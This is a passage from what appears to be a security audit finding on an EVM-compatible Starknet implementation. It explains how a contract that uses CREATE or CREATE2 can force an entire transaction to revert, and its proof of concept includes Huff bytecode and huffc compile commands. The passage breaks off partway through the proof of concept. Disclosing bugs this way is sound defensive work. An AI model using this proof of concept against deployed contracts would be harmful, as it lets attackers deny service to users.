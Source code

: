 ```cairo
}
```

Here, `let (is_valid) = IAccount.is_valid_jumpdest(code_address.starknet, index);` would revert the whole starknet transaction as it will call zero address which isn't `IAccount` contract. So any contract using `CREATE` or `CREATE2` opcode will be vulnerable to this issue or if a contract makes a callback to another contract by making sure to only send limited gas and handle the revert case properly, the other contract can use `CREATE` or `CREATE2` opcode to make the transaction revert forcefully.

### Proof of Concept

Consider the following code:

```huff
#define macro MAIN() = takes(0) returns(0) {
    0x00
    jump
}
```

Save the above code in a file name `creation_code.huff`. You can refer [Installing Huff](https://docs.huff.sh/get-started/installing/), if you don't have huff installed.

The above code will jump to the offset `0` which is less than the creation code length ( i.e. `2` ) and can be converted to bytecode using the following command:

```
huffc creation_code.huff --bytecode
```

The output will be:

```
    60028060093d393df35f56
```

The runtime code, after removing the first few bytes which are responsible for deployment:

```
    5f56
```

Also, consider the following code:

```huff
#define macro MAIN() = takes(0) returns(0) {
    0x5f 0x00 mstore8 // store `PUSH0` opcode at memory offset 0
    0x56 0x01 mstore8 // store `JUMP` opcode at memory offset 1

    0x02 // size
    0x00 // offset
    0x00 // value
    create
}
```

Save the above code in a file name `create.huff`. This will jump to the offset `0` which is less than the creation code length (i.e. `2`) and can be converted to bytecode using the following command:
